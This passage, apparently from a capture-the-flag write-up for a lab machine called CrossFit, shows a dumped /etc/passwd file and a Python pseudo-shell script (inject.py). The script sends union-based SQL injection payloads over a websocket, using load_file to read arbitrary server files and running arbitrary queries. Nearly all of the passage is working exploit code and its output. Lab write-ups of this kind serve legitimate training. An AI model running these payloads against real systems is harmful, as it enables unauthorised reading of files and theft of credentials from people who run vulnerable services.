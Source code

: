 ```php
_tftp_proxy:*:108:108:tftp proxy daemon:/nonexistent:/sbin/nologin
_ftp_proxy:*:109:109:ftp proxy daemon:/nonexistent:/sbin/nologin
_sndiop:*:110:110:sndio privileged user:/var/empty:/sbin/nologin
_syspatch:*:112:112:syspatch unprivileged user:/var/empty:/sbin/nologin
_slaacd:*:115:115:SLAAC Daemon:/var/empty:/sbin/nologin
nobody:*:32767:32767:Unprivileged user:/nonexistent:/sbin/nologin
_mysql:*:502:502:MySQL Account:/nonexistent:/sbin/nologin
lucille:*:1002:1002:,,,:/home/lucille:/bin/csh
node:*:1003:1003::/home/node:/bin/ksh
_dbus:*:572:572:dbus user:/nonexistent:/sbin/nologin
_redis:*:686:686:redis account:/var/redis:/sbin/nologin
david:*:1004:1004:,,,:/home/david:/bin/csh
john:*:1005:1005::/home/john:/bin/csh
ftp:*:1006:1006:FTP:/home/ftp:/sbin/nologin
```

Adding a `read_file` function to our script we can now easily read files by prepending `read_file` in our pseudo-shell.

`inject.py`
```py
import websocket
import json
from cmd import Cmd

class Read_SQLI(Cmd):
    prompt = "sm1l3z > "

    def __init__(self):
        self.ws = websocket.WebSocket()
        self.token = ''
        Cmd.__init__(self)

    def open_connection(self):
        self.ws.connect('ws://gym.crossfit.htb/ws/')
        response = self.parse_json(self.ws.recv())
        self.token = response['token']

    def parse_json(self, data):
        if data == "ping":
            self.ws.send("pong")
            data = self.ws.recv()
        parsed = json.loads(data)
        return parsed

    def do_read_file(self, file_name):
        self.open_connection()
        payload  = '{"message":"available", "params" : '
        payload += f'''"-1 union select null, group_concat(load_file('{file_name}'))"'''
        payload += ',"token":"' + self.token + '"}'
        self.ws.send(payload)
        response = self.parse_json(self.ws.recv())
        self.ws.close()
        file_content = response['debug'][17:-1]
        print(file_content)

    def default(self, query):
        self.open_connection()
        payload  = '{"message":"available", "params" : '
        payload += f'''"-1 {query}"'''
        payload += ',"token":"' + self.token + '"}'
        self.ws.send(payload)
        response = self.parse_json(self.ws.recv())
        self.ws.close()
```